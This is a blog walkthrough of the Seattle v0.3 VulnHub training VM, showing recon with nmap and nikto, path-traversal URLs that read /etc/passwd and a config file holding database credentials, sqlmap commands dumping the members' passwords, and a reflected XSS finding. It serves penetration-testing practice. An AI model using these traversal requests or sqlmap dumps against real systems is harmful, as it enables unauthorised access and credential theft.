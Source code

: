 ```yaml
---
layout: post
title: Seattle v0.3 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from HollyGraceful
date: 2017-03-08 00:00:00
lastupdated: 
category: Vulnhub
tags: [vulnhub, walkthrough]
bigimg: /img/walkthrough1.jpg
comments: true
---
```


# Table of contents
{:.no_toc}

* Will be replaced with the ToC, excluding the "Contents" header
{:toc}

## Preface

Hi guys, today I'm ready to publish my walkthrough against the vm hosted on vulnhub called [Seattle v0.3](
https://www.vulnhub.com/entry/seattle-v03,145/) by HollyGraceful.

Let's go guy! We can find a few notes on [vulnhub's page](https://www.vulnhub.com/entry/seattle-v03,145/)'s description:

```plaintext
Graceful’s VulnVM is web application running on a virtual machine, it’s designed to simulate a simple eCommerce style website which is purposely vulnerable to a number of well know security issues commonly seen in web applications. This is really a pre-release preview of the project but it’s certainly functional as it stands, but I’m planning on doing a lot of work on this in the near future.

The plan is ultimately to have the application vulnerable to a large number of issues with a selection of different filters at different difficulties that way the as testers become better at detecting and exploiting issues the application can get hardened against common exploitation methods to allow the testers a wider ranger of experiences.

The first filters have now been implemented! The application now supports “levels” where Level 1 includes no real filtration of user input and Level 2 includes a simple filter for each vulnerable function.

Currently it’s vulnerable to:

    SQL Injection (Error-based)
    SQL Injection (Blind)
    Reflected Cross-Site Scripting
    Stored Cross-Site Scripting
    Insecure Direct-Object Reference
    Username Enumeration
    Path Traversal
    Exposed phpinfo()
    Exposed Administrative Interface
    Weak Admin Credentials
```


## Information Gathering

After launching netdiscover to find the vm's ip address,
![Net Discover](/assets/seattle/netdiscover.png)

I scanned the server with nmap and I could see apache web server version 2.4.16 was running on port 80:
![Nmap](/assets/seattle/nmap.png)

So I browsed it and I could see this:
![Web Site](/assets/seattle/website.png)


## Vulnerability Analysis

After that I decided to launch nikto, which revealed two directories admin, downloads and a lot of security issues, among which a remote file inclusion vulnerability!
![Nikto](/assets/seattle/nikto.png)


## PHP Info Disclosure

According with nikto that there is a phpinfo page which allows us to run various vulnerabilities to read the PHP source code pages: 

![PHP Info](/assets/seattle/phpinfo.png)

* allow_url_fopen=On    - which implies that LFI may be possible.
* allow_url_include=Off - which implies that RFI may not be possible.
* display_errors=Off    - which implies that errors aren't displayed in output.

![PHP Info 2](/assets/seattle/phpinfo2.png)

* include_path: .:/usr/share/pear:/usr/share/php - LFI only possible for these paths however.


## Path Traversal

if we click on catalogue link, the website offers us a pdf file download link. So I tried to put in the item parameter some ../ and the path of passwd file to use a Local File Inclusion vulnerability according to nikto:

```plaintext
http://192.10.2.9/download.php?item=../../../../etc/passwd
```

and I could download it:

```plaintext
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

Then I navigated around the website and I found the admin account :smiley:
![Admin Account](/assets/seattle/admin-account.png)

According with the nikto results I navigated into admin folder and I could see these webpages:
![Admin Webpages](/assets/seattle/admin-webpages.png)

So we can use the LFI vulnerability and we download them:

```plaintext
http://192.10.2.9/download.php?item=../admin/admincontent.php
```

Inside it there was an include file named connection.php:
![Admin Content PHP file](/assets/seattle/admin-content-php.png)

So I downloaded it:

```plaintext
http://192.10.2.9/download.php?item=../admin/connection.php
```

and then I downloaded config.php file:

```plaintext
http://192.10.2.9/download.php?item=../admin/config.php
```

Inside it we can see the root credentials and the name of database! Fine! :smile:

```plaintext
<?php
$host = 'localhost';
$user = 'root';
$pass = 'Alexis*94';
$database = 'seattle';
?>
</div>
<div class="products-list"></div>
```


## User enumeration

If we try to insert fake email and password before, and the admin email and a fake password we can see that the website says us which is the correct email:
![User Enumeration](/assets/seattle/user-enumeration.png)


## Sql Injection

I tried to test sql injection on the products page:
![Sql Error](/assets/seattle/sql-error.png)

Fine :smirk: ! It seemed sql injection vulnerable. After that I tried to use sqlmap to exploit it. So I tried to use Burp Suite to capture http header of webpage and then I used it with sqlmap:
![Burp Suite](/assets/seattle/burp-suite.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt --dbs --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap.png)

Good! I found the database seattle, if you remember we find it previously. Now we need to find the tables inside seattle database.If you remember we find one table previously, when I showed the content of admincontent php file, exactly the table's name is tblMembers but we launch sqlmap anyway to enumerate tables:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle --tables --dbms MySQL --level 3 --risk 3
```

We can find three tables tblBlogs, tblMembers and tbProducts:
![SqlMap](/assets/seattle/sqlmap1.png)

Now we need to find the columns of tblMembers to find admin password:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -columns --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap2.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -C password --dump --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap3.png)

Perfect! Now we can browse in the login page and we enter the admin's email found before and the password:
![Admin Login](/assets/seattle/admin-login.png)


## Reflected XSS

Reflected XSS discovered in author parameter in blog php file:
![Reflected XSS](/assets/seattle/reflected-xss.png)

